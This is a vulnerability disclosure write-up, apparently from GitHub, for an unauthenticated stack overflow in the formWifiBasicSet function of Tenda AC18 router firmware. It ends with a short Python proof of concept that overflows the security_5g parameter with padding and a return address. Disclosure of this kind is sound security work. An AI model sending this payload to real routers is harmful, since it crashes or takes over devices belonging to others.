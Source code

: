 Tenda AC18 Unauthorized stack overflow vulnerability

## **1. Affected version:**

Tenda ac18_kf_V15.03.05.19(6318_)_cn

## **2. Firmware download address**

<https://www.tenda.com.cn/download/detail-2683.html>

## **3. Vulnerability details**
![image](https://user-images.githubusercontent.com/65169560/212258478-ce2d24e8-e883-47de-8ca0-b6835191e520.png)

![image](https://user-images.githubusercontent.com/65169560/212258494-2402a992-6e8a-4057-be45-ec3d655a140e.png)

The function "formWifiBasicSet" contains a stack-based buffer overflow vulnerability. In the function, it reads in a user-provided parameter, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

## **4. Recurring vulnerabilities and POC**
```python
import requests
from pwn import *

url = 'http://x.x.x.x/goform/WifiBasicSet'
pl = 'a'*564+p32(0xdeadbeef)
data = {'security_5g':pl, 'hideSsid':'1', 'ssid':'1', 'security':'1', 'wrlPwd':'1', 'hideSsid_5g':'1', 'ssid_5g':'1', 'wrlPwd_5g': '1'}

requests.post(url, data=data)
```

## 5. Author

Drizzling_Sun @KRlab
